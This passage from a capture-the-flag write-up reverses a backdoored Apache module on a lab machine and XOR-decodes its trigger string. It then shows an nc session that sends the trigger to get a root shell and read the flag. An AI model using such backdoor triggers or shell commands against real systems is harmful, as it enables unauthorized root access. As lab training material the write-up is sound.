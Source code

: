 So let’s grab a copy:

```

dom@ubuntu:~/.thunderbird/36jinndk.default/ImapMail/crimestoppers.htb$ locate rootme
/etc/apache2/mods-available/rootme.load
/etc/apache2/mods-enabled/rootme.load
/usr/lib/apache2/modules/mod_rootme.so

```

The new release of IDA free is a great way to look at this. There’s a function called `rootme_post_read_request` that seems like a good place to start:

![](https://0xdfimages.gitlab.io/img/ida-rootme_post_read_request.png)

In that function, there’s a call to `darkarmy`, followed by a call to string compare for the result of `darkarmy` and [rbx+150h]. Making a guess that that buffer holds the request, check out `darkarmy`:

![](https://0xdfimages.gitlab.io/img/darkarmy.png)

This loop takes two strings and xors their first 10 characters, which looks like this in python:

```

>>> a = 'HackTheBox'
>>> b = '\x0E\x14\x0d\x38\x3b\x0b\x0c\x27\x1b\x01'
>>> [chr(ord(x) ^ ord(y))  for x,y in zip(a,b)]
['F', 'u', 'n', 'S', 'o', 'c', 'i', 'e', 't', 'y']

```

And that string gets a root shell:

```

root@kali# nc 10.10.10.80 80
get FunSociety
rootme-0.5 DarkArmy Edition Ready
id
uid=0(root) gid=0(root) groups=0(root)
python3 -c 'import pty;pty.spawn("bash")'
root@ubuntu:/#

```

### root.txt

And with that, root.txt:

```

root@ubuntu:/# cd /root
cd /root
root@ubuntu:/root# ls
ls
Congratulations.txt  root.txt
root@ubuntu:/root# wc -c root.txt
wc -c root.txt
33 root.txt
root@ubuntu:/root# cat root.txt
cat root.txt
91bb771...
root@ubuntu:/root# cat Congratulations.txt
cat Congratulations.txt
```